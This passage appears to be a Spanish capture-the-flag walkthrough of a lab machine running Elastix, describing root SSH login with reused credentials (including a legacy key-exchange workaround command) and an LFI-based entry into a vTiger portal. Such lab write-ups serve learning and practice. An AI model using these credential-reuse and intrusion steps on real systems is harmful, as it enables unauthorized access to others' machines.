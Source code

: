 ## INTRUSION + ESCALADA DE PRIVILEGIOS SSH

Iniciamos con `SSH`, debido a que tenemos acceso a contraseñas que pueden ser reutilizadas para acceder a la máquina por parte de un usuario administrador, así que básicamente vamos a ingresar con las credenciales que encontramos anteriormente y tenemos directamente acceso a una shell interactiva como usuario `root`.

```bash
ssh root@10.10.10.7
```
```bash
#Resultado
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1

ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
```

## INTRUSION VTIGER

La segunda intrusión se lleva por medio del ataque por `LFI`, toda vez que, es identificado el servicio `vtiguer` como primera carpeta del payload ejecutado.

Logramos un acceso a un nuevo portal, por lo que vamos a probar las credenciales obtenidas, teniendo total capacidad de navegar en el servicio web.

<p align="center">
<img src="/assets/images/beep/05-page.png">
</p>
